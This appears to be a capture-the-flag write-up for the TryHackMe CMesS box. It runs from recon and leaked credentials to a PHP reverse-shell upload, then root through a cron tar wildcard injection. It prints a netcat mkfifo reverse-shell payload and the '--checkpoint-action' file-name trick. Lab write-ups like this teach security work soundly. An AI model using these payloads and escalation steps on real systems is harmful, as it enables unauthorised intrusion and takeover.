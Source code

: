 ```yaml
---
title: TryHackMe CMESS
date: 2020-12-05
categories: [TryHackMe]
thumbnail: /assets/img/thm/cmess/cmess.png
excerpt: We use and LFI to get initial access, then we use a cronjob wildcard exploit. 
tags: [lfi,wfuzz,dirsearch,linpeas,cronjob,searchsploit]
---
```


# TryHackMe CMesS
Can you root this Gila CMS box?
The challenge page tells us to add `<box IP> cmess.thm to /etc/hosts` so let's do that first.

---

## NMAP results
Let's start off by running our nmap scan

![nmap](/assets/img/thm/cmess/nmap.png)

We can see that there's 2 ports open `port 22` and `port 80`.
> `port 22 - OpenSSH 7.2p2`
>`port 80 - Apache httpd 2.4.18`

---

## Searchsploit
looking up Gila CMS on searchsploit we seem to have 2 exploits:

![gila](/assets/img/thm/cmess/gila.png)

Looks like we have some sort of local file inclusion

Examining the file:

![lfi](/assets/img/thm/cmess/lfi.png)

We'll have to find credentials to the admin panel, then navigate to the LFI link.
`/admin/fm/?f=src../../../../../../../../../WINDOWS/system32/drivers/etc/hosts`

---

## Website

![website](/assets/img/thm/cmess/website.png)

Not an interesting page.

Running `dirsearch` on target, we can see we have a `/admin` directory. Let's visit it.

![admin](/assets/img/thm/cmess/dirsearch.png)

When running `wfuzz`:

`wfuzz -c -f subdomains.txt -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" --hl 107`

![wfuzz](/assets/img/thm/cmess/wfuzz.png)

We have found one subdomain, we'll add this to our `/etc/hosts` file as well. 

Visiting the subdomain: `dev.cmess.thm`

![dev](/assets/img/thm/cmess/dev.png)

We can see that the password for andre has been reset and the new password has been given.

`Password: KPFTN_f2yxe%`
He stated that he's unable to get onto the admin panel
So let's try these credentials with the admin page:

`Email: andre@cmess.thm`
`Password: KPFTN_f2yxe%`

![admin](/assets/img/thm/cmess/admin.png)

Appending: `/admin/fm/?f=src../../../../../../../../../WINDOWS/system32/drivers/etc/hosts`

![LFI2](/assets/img/thm/cmess/lfi2.png)

Looks like it didn't do anything as we can just navigate to this ourselves via clicking `Content > File Manager` however, this has an upload function so let's try uploading a php reverse shell

You can get one from: [Here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
or navigate on your host machine and go to `/usr/share/webshells/php` and edit the `php-reverse-shell.php` file and change your IP and the port you want.

Upload your reverse shell and navigate to the `assets` directory. You'll see your reverse shell nested in there:

![revshell](/assets/img/thm/cmess/revshell.png)

Let's start our listener with `nc -lvnp <port used in revshell>` and navigate to our reverse shell to trigger it. `http://cmess.thm/assets/php-reverse-shell.php`

---

## User

GREAT!

![shell](/assets/img/thm/cmess/shell.png)

Looks like we can't `cd` into andre so we'll have to find ways around this

![andre](/assets/img/thm/cmess/andre.png)

---

## Privesc

We can get [LinEnum](https://github.com/rebootuser/LinEnum) onto the box by spinning up a python server with `python3 -m http.server` on host machine then navigate to a writeable directory such as `/tmp` on target machine `wget <host IP>:8000/LinEnum.sh`

We can see an interesting cron running

![cron](/assets/img/thm/cmess/crontab.png)

Towards the end of `LinEnum`, we see 

![lin](/assets/img/thm/cmess/endlin.png)

Let's `cd` into `/opt` and view that `.bak` file.

![backup](/assets/img/thm/cmess/backup.png)

It notes that andre's backup password is `UQfsdCB7aAP6`

Let's try SSH this time and see if we can't login as andre.

Looks like it worked:

![ssh](/assets/img/thm/cmess/ssh.png)

user flag is in current working directory.

---

## Root

One cool tool we can use is called [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

So let's do  as we did with LinEnum and setup a server on our host and wget the linPEAS file.

Remember back when we found the crontab, this will come in handy. linPEAS found the cron to be using what's called wildcard options

![cronlin](/assets/img/thm/cmess/cronpeas.png)

The Slash is used as an interval.
This can be used with a range or wild card to run at a specified interval.

These wildcards go as follows: `minute, hour, day of month, month, day of week`. So in this case `*/2 * * * *` means update every 2 minutes. This cron is running a tar command to backup the andre's “backup” directory

We can read about tar wildcard injection: [Here](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

We will need to create our payload from our host machine.
`msfvenom -p cmd/unix/reverse_netcat lhost=$HOST lport=$PORT R`

Now that we have our payload `mkfifo /tmp/wxejkej; nc <your IP> 1337 0</tmp/wxejkej | /bin/sh >/tmp/wxejkej 2>&1; rm /tmp/wxejkej`

All we have to do is a few commands:
Make sure you have your listener up with the right port from your payload.

Run these commands on target:
>`echo "mkfifo /tmp/wxejkej; nc <your IP> 1337 0</tmp/wxejkej | /bin/sh >/tmp/wxejkej 2>&1; rm /tmp/wxejkej" > shell.sh`
> `echo "" > "--checkpoint-action=exec=sh shell.sh"`
> `echo "" > --checkpoint=1`

Now all we have to do is wait for a callback and we should get root.

BINGO!!

![root](/assets/img/thm/cmess/root.png)

Root flag will be in `/root`
















